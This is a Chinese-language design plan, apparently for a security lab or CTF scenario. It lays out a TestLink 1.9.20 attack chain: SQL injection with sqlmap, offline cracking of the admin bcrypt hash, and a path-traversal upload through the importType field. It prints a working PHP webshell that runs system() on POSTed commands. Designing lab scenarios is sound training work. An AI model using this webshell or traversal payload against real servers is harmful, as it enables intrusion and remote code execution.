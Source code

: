 
# 漏洞设计方案

- 利用条件：普通游客身份
- 利用效果：信息泄露、远程代码执行

### 漏洞利用过程

1. 攻击者利用开发者工具，从返回的消息头的cookie字段可以查看到应用的基础软件的名称为`TESTLINK`基础版本为19.20。攻击者通过网上检索，TESTLINK19.20版本存在的漏洞信息以及漏洞复现报告。例如：[Testlink 1.9.20: Unrestricted file upload and SQL injection](https://ackcent.com/blog/testlink-1.9.20-unrestricted-file-upload-and-sql-injection/)
2. 攻击者可以注册自己的账户，注册的用户身份是游客身份没有权限触发文件上传漏洞上传`webshell`。
3. 攻击者根据网搜索漏洞分析报告说明，使用`sqlmap`工具dump用户信息数据表。
4. 攻击者拿到数据库中存储的管理员的密码信息，通过对`bcrypt`算法加密后的密码的离线爆破的得到管理员用户的密码。
5. 攻击者使用管理员身份登录应用，在管理关键字模块上传包含关键字文件时，利用burp suite工具拦截上传文件的请求：
   - 更改上传请求的`importType`的字段的值为`/../../../logs/xx.php`
   
- 上传文件 `uploadedFile`  的内容替换为攻击者自己精心构造`webshell`
   
     例如：
   
     ```php
     <html>
         <body>
             <form method="POST">
                 <input name="command" id="command" />
                 <input type="submit" value="Send" />
             </form>
             <pre>
                 <?php if(isset($_POST['command']))
             {
                 system($_POST['command']);
             } ?>
             </pre>
         </body>
     </html>
     ```
   
     
   
6. 攻击者访问`http://your-ip:port/logs/xx.php`触发`webshell`，能够在服务器上执行代码。